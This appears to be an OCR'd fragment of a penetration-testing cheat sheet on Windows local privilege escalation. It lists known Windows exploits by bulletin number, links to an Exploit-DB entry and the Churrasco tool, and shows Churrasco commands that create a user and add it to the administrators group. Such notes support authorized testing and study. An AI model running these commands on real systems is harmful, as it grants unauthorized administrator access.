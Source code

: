 ```
```

### Windows Local Exploits:

```
18: windows-privesc-check
19: ms04-011
20: ms04-019 (1)
21: ms04-019 (2)
22: ms04-019 (3)
23: ms04-020
24: *keybd_event
25: *ms05-018
26: *ms05-055
27: ms06-030
28: ms06-049
29: print spool service
30: *ms08-025
31: netdde
32: ms10-015
33: ms10-059
34: ms10-092
35: ms11-080
36: ms14-040
37: *ms14-058 (1)
38: ms14-058 (2)
39: *ms14-070 (1)
40: ms14-070 (2)
41: *ms15-010 (1)
42: *ms15-010 (2)
43: ms15-051
44: *ms16-014
45: ms16-016
46: ms16-032
```

Check out:

```
http://www.bhafsec.com/wiki/index.php/Windows_Privilege_Escalation
```

#### Windows Server 2003 and IIS 6.0 privilege escalation using impersonation:

```
https://www.exploit-db.com/exploits/6705/
```

```
https://github.com/Re4son/Churrasco
```

```
c:\Inetpub>churrasco
 churrasco
 /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

 c:\Inetpub>churrasco -d "net user /add <username> <password>"
 c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
```
